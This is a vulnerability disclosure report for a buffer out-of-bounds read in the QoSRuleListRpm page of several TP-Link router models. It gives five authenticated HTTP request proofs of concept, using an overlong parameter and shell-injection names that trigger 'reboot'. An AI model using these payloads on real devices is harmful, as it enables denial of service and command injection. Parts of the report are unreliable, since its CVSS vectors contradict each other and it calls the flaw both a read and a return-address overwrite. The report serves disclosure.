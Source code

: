 # TP-Link TL-WR940N/TL-WR841N/TL-WR941ND wireless router /userRpm/QoSRuleListRpm buffer read out-of-bounds vulnerability

## 1 Basic Information

- Vulnerability Type: Buffer read out-of-bounds
- Vulnerability Description: A buffer overflow vulnerability exists in TP-Link TL-WR940N V4, TP-Link TL-WR841N V8/V10, TP-Link TL-WR940N V2/V3 and TP-Link TL-WR941ND V5/V6 wireless router. Its /userRpm/QoSRuleListRpm implementation has a security vulnerability in processing the protocol GET key parameters, allowing remote attackers to submit special requests through the vulnerability, causing buffer out-of-bounds read errors, which may lead to memory-sensitive information leakage and denial of service.
- Device model:
  - TP-Link TL-WR940N V4  
  - TP-Link TL-WR841N V8/V10  
  - TP-Link TL-WR940N V2/V3  
  - TP-Link TL-WR941ND V5/V6  

## 2 Vulnerability Value

- Maturity of Public Information: None

- Order of Public Vulnerability Analysis Report: None

- Stable reproducibility: yes

- Vulnerability Score (refer to CVSS)

   - V2：[8.5 High AV:N/AC:M/Au:S/C:C/I:C/A:C](https://nvd.nist.gov/vuln-metrics/cvss/v2-calculator?vector=(AV:N/AC:M/Au:S/C:C/I:C/A:C))
   - V3.1：[9.1 High AV:N/AC:L/PR:H/UI:N/S:C/C:H/I:H/A:H](https://nvd.nist.gov/vuln-metrics/cvss/v3-calculator?vector=AV:N/AC:L/PR:N/UI:N/S:C/C:N/I:N/A:H&version=3.1)

- Exploit Conditions

   - Attack Vector Type: Network
   - Attack Complexity: Low
   - Complexity of Exploit
     - Permission Constraints: authentication is required
     - User Interaction: No victim interaction required
   - Scope of Impact: Changed (may affect other components than vulnerable ones)
   - Impact Indicators:
     - Confidentiality: High
     - Integrity: High
     - Availability: High
   - Stability of vulnerability exploitation: Stable recurrence
   - Whether the product default configuration: There are vulnerabilities in functional components that are enabled out of the factory

- Exploit Effect

   - Denial of Service

## 3 PoC

The PoC of TP-Link TL-WR940N is as follows:

```http
GET /IOCGBYQCLXJSWZMC/userRpm/QoSRuleListRpm.htm?enable=true&start_ip_addr=192.168.0.4&end_ip_addr=192.168.0.6&start_port=17&end_port=20&protocolaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa=0&min_up_band_width=0&max_up_band_width=0&min_down_band_width=0&max_down_band_width=0&Save=Save&curEditId=0&Page=1 HTTP/1.1
Host: 127.0.0.1:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/109.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: keep-alive
Referer: http://127.0.0.1:8081/IOCGBYQCLXJSWZMC/userRpm/QoSRuleCfgRpm.htm?Add=Add&Page=1
Cookie: Authorization=Basic%20YWRtaW46MjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzM%3D
Upgrade-Insecure-Requests: 1

```

The PoC of TP-Link TL-WR841N V10 is as follows:

```http
GET /CTVJVVOCIAAMCXNC/userRpm/QoSRuleListRpm.htm?enable=true&start_ip_addr=192.168.0.4&end_ip_addr=192.168.0.6&start_port=2&end_port=4&$(`reboot`)=0&min_up_band_width=0&max_up_band_width=0&min_down_band_width=0&max_down_band_width=0&Save=Save&curEditId=0&Page=1 HTTP/1.1
Host: 127.0.0.1:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/109.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: keep-alive
Referer: http://127.0.0.1:8081/CTVJVVOCIAAMCXNC/userRpm/QoSRuleCfgRpm.htm?Add=Add&Page=1
Cookie: Authorization=Basic%20YWRtaW46MjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzM%3D
Upgrade-Insecure-Requests: 1

```

The PoC of TP-Link TL-WR940N V2/TL-WR941ND V5 is as follows:
```http
GET /MZKBGETBFITRVSAA/userRpm/QoSRuleListRpm.htm?enable=true&start_ip_addr=192.168.0.3&end_ip_addr=192.168.0.34&start_port=21&end_port=24&protocol|reboot;=0&min_up_band_width=12&max_up_band_width=21&min_down_band_width=12&max_down_band_width=21&Save=Save&curEditId=0&Page=1 HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:107.0) Gecko/20100101 Firefox/107.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
Referer: http://192.168.0.1/ZRCEHZIAURWJWDTC/userRpm/QoSRuleCfgRpm.htm?Add=Add&Page=1
Cookie: Authorization=Basic%20YWRtaW46MjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzM%3D
Upgrade-Insecure-Requests: 1

```  

The PoC of TP-Link TL-WR940N V3/TL-WR941ND V6 is as follows:
```http
GET /IOCGBYQCKLVYFARA/userRpm/QoSRuleListRpm.htm?enable=true&start_ip_addr=192.168.0.9&end_ip_addr=192.168.0.11&start_port=12&end_port=21&||reboot;=0&min_up_band_width=10&max_up_band_width=30&min_down_band_width=10&max_down_band_width=30&Save=Save&curEditId=0&Page=1 HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:107.0) Gecko/20100101 Firefox/107.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
Referer: http://192.168.0.1/WRKWVQRABLAJMDEB/userRpm/QoSRuleCfgRpm.htm?Add=Add&Page=1
Cookie: Authorization=Basic%20YWRtaW46MjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzM%3D
Upgrade-Insecure-Requests: 1

```  

The PoC of TP-Link TL-WR841N V8 is as follows:

```http
GET /userRpm/QoSRuleListRpm.htm?enable=true&start_ip_addr=192.168.0.3&end_ip_addr=192.168.0.5&start_port=23&end_port=45&protocol&&reboot=0&min_up_band_width=10&max_up_band_width=100&min_down_band_width=0&max_down_band_width=0&Save=Save&curEditId=0&Page=1 HTTP/1.1
Host: 0.0.0.0:49169
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Authorization: Basic YWRtaW46YWRtaW4=
Connection: keep-alive
Referer: http://0.0.0.0:49169/userRpm/QoSRuleCfgRpm.htm?Add=Add&Page=1
Cookie: Authorization=
Upgrade-Insecure-Requests: 1

```

## 4 Vulnerability Principle

When the Web management component receives a GET request, its /userRpm/QoSRuleListRpm component implements a security vulnerability in processing the protocol GET key parameter. The length of the parameter key of protocol can be any length and it is put into the stack without any boundary check, resulting in a read out-of-bounds. An attacker can exploit this vulnerability to overwrite the return address, which may lead to the disclosure of memory-sensitive information and denial of service.

The firmware is simulated by means of simulation, the simulation process and interface are as follows:

![](./imgs/fat.png)

![](./imgs/before.png)

![](./imgs/suc.png)  

![](./imgs/router2.png) 

![](./imgs/router3.png) 

![](./imgs/router4.png) 
After sending the PoC, a buffer read out-of-bounds memory error occurred, encountered an `unexpected fatal signal 11` error and a BadVA error, causing the program to crash.

![](./imgs/read_err.png)

![](./imgs/after.png)

![](./imgs/crash.png)

## 5. The basis for judging as a 0-day vulnerability

Search the QoSRuleListRpm keyword in the NVD database, and no vulnerabilities are found (the same series of vulnerabilities can be found by directly searching the interface name to find related historical vulnerabilities).

Search the QoSRuleListRpm keyword in the CNVD database, and no vulnerabilities are found (the same series of vulnerabilities can be found by directly searching the interface name to find related historical vulnerabilities).